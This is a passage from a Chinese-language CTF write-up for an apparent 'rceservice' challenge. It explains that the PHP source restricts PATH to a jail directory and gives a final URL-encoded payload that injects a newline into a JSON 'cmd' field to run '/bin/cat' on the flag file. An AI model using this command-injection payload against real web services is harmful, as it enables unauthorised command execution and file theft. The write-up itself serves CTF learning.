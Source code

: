 成功;

### RCE 利用

接下来找 flag:

![13-4.png](13-4.png)

找到这个 flag 在 `/home/rceservice/flag` 里面;

`cat /home/rceservice/flag` 没有回显; 找一下 `/bin` 发现里面是有的;

回顾一下源码里这句: 

```php
putenv('PATH=/home/rceservice/jail');
```

限制了环境, 因此要显式的指定指令绝对路径:

最终 payload:

```
cmd=%7B%0a%22cmd%22%3A%22/bin/cat+/home/rceservice/flag%22%0a%7D
```
